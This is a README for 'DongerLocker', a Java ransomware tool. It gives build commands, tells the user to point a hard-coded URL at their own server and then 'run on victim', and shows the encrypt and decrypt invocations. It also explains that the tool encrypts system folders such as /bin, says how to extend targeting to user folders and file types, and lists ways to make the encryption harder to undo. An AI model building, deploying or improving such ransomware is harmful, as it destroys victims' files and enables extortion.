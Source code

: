 DongerLocker
===
Super dank java based crypto locker

Build
===
Make sure sbt is installed

```sbt compile```

```sbt one-jar``` <-- this gets it packed into one java binary


Run
===

Change URL on line 27 from https://hardlyuseful.com to your serv.

Then, compile, sbt one-jar, cp then run on victim.

Things to note:

Change whitelist (I encrypt everything in /bin but a few for Linux, and Program Files for Linux)

There are some commented out pieces of code to get userfolder, and its trivial to build a list of file extensions

that you want to target.

```cp target/scala-2.10/dongerlocker_2.10-1.0-one-jar.jar donger.jar```

Encrypt
==

```java -jar donger.jar enc```

Decrypt
==

```java -jar donger.jar dec```

Things it doesnt do
===

Ideally, port a pub key to encrypt the symmetric key:IV to send that as one parameter when you encrypt everything.

Also, separate IV per file, and better encrypted file detection (magic values prepended/appended instead of a meme extension..)

